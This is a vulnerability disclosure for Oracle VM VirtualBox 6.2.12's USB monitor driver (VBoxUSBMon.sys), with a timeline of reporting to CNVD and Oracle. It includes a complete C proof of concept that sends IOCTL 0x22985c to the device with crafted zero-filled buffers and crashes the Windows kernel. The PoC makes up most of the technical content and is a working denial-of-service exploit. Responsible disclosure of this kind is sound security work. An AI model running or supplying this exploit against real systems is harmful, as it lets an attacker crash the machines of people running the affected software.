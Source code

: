 # VirtualBox USB Monitor Driver allows attackers to cause blue screen
These page show one of the practical vulns that Found. I reported these bugs to cnvd on 24/8/2020 and cnvd confirmed the bug with Oracle Inc..  I think it is time to publish the detailed infomation here.
## Time Line
 * 24/8/2020 Bugs were reported to cnnvd.
 * 22/9/2020 CNVD and Oracle got confirmation that the poc could cause system crash.
 * 26/9/2020 CNVD published the bug at https://www.cnvd.org.cn/flaw/show/CNVD-2020-53153 
 * 12/11/2020 POC published.
 
 ## Abstract
 
* Name: Oracle VM VirtualBox
* Date: 2020-8-24
* Reporter: Shuaibing Lu
* Vendor: http://www.oracle.com/
* Software Link: https://www.oracle.com/virtualization/technologies/vm/downloads/virtualbox-downloads.html
* Version: Oracle VM VirtualBox 6.2.12
### Description
The USB monitor component VboxUSBMon.sys of Oracle VM VirtualBox 6.2.12 allows attackers to inject a crafted argument via the argument of an ioctl on device "\\\\.\\VBoxUSBMon" with the command **0x22985c** and cause a kernel crash.

To explore this vulnerability, some one must open the device file "\\\\.\\VBoxUSBMon", call an ioctl system call on this device file with the command **0x22985c** and a crafted payload as the third argument.
### PoC
```
//Experimental environment: win10 x64
//Software official website: http://www.oracle.com/
//Software download address: https://www.oracle.com/virtualization/technologies/vm/downloads/virtualbox-downloads.html
//Software version：Oracle VM VirtualBox 6.2.12
//Affected Component: VboxUSBMon.sys

//poc


#include<stdio.h>
#include <windows.h>

typedef struct _IO_STATUS_BLOCK {

    union {

        NTSTATUS Status;

        PVOID    Pointer;

    } DUMMYUNIONNAME;

    ULONG_PTR Information;

} IO_STATUS_BLOCK, * PIO_STATUS_BLOCK;



typedef NTSTATUS(NTAPI* NtDeviceIoControlFile)(

    HANDLE           FileHandle,

    HANDLE           Event,

    PVOID            ApcRoutine,

    PVOID            ApcContext,

    PIO_STATUS_BLOCK IoStatusBlock,

    ULONG            IoControlCode,

    PVOID            InputBuffer,

    ULONG            InputBufferLength,

    PVOID            OutputBuffer,

    ULONG            OutputBufferLength

    );

int main() {
    char  DeviceName[] = "\\\\.\\VBoxUSBMon";
    long command = 0x22985c;
    HANDLE hDriver = CreateFileA(DeviceName, GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);

    ULONG dw;

    if (hDriver == INVALID_HANDLE_VALUE) {
        printf("Open device failed.\n");
        system("pause");

        return(-1);

    }

    LPCWSTR nt = L"ntdll";

    HMODULE hntdll = GetModuleHandle(nt);

    IO_STATUS_BLOCK p = {};

    NtDeviceIoControlFile tDeviceIoControl = (NtDeviceIoControlFile)GetProcAddress((HMODULE)hntdll, "NtDeviceIoControlFile");

    if (!tDeviceIoControl) {

        printf("[-] Fail to resolve ZwDeviceIoControlFile(0x%X)\n", GetLastError());

        system("pause");

    }

    printf("Start poc execution.\n");
    LPVOID lpFakeBuffer = malloc(0x20000);

    memset(lpFakeBuffer, 0, 0x20000);

    LPVOID Address = malloc(0x20000);

    memset(Address, 0, 0x20000);

    tDeviceIoControl(hDriver, 0, 0, 0, &p, command, lpFakeBuffer, 0, (PVOID)Address, 0);

    return 0;

}
```
### References

CNVD: https://www.cnvd.org.cn/flaw/show/CNVD-2020-53153

### Screenshot

![image](https://github.com/datadancer/WinSysVuln/blob/main/VBoxUSBMon.jpg)
